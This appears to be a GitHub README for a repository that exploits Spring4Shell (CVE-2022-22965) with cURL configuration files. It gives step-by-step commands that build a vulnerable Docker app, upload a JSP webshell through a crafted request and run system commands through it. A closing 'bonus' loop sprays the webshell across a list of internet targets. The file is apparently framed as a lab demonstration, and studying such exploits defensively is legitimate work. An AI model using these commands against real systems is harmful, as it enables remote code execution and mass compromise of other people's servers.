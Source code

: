 # Spring4Shell-cURL
cURL configs for exploiting Spring4Shell 


## Weaponzing cURL to Exploit Spring4Shell (CVE-2022-22965) 
I hadn't seen this method posted anywhere, just wanted to document. 99% of this is not my work. I just combined unique aspects into this repo. 


### Quick Setup

0. Clone the repo. You'll need Docker and cURL. If somehow you don't have cURL, download from: [https://everything.curl.dev/get](https://everything.curl.dev/get)
1. Deploy Docker container:  
`docker image build -t retro/stupidrumor ./ && docker container run -it --publish 8080:8080 retro/stupidrumor`.
3. Issue the cURL command:  
`curl --config request.txt http://localhost:8080/stupidRumor_war/index`. This cURL command first reads from the `requests.txt` file. Inside the `request.txt` are things like the specific headers we need to exploit the vulnerable application. Noteably, the last line is `data-binary = "@body.txt"`, which contains our POST body. 
   
   **Note:** I've configured cURL to also send our requests through a transparent application proxy (Burp) in this case on `port 8081`, not `8080` as that's already taken by the Docker app. This is mostly for troubleshooting, but good to have in your Repeater nonetheless :)
   
3. Once the cURL command is sent, the webshell (`tomcatwar.jsp`) will be uploaded to the webroot (`stupidRumor_war/`), which means you can access it here in a browser if you want: `stupidRumor_war/tomcatwar.jsp?`
4. But we're using cURL, so now issue the second cURL request:  
`curl 'http://localhost:8080/stupidRumor_war/tomcatwar.jsp?pwd=j&cmd=whoami' --output -`. 

Bonus: I guess you could do something like the following to blindly spray webshells across the internet. Not recommended:  

`for i in $(cat targets.txt); do curl --config request.txt $i:$/yougottafixurethisout | tee -a SpringerShellOutput.txt; done`


   
   
   
   
   
   
   
   
   
   
   
   
   
   ----------------
   Refs:  
[https://github.com/Retrospected/spring-rce-poc/blob/master/deploy.sh](https://github.com/Retrospected/spring-rce-poc/blob/master/deploy.sh)
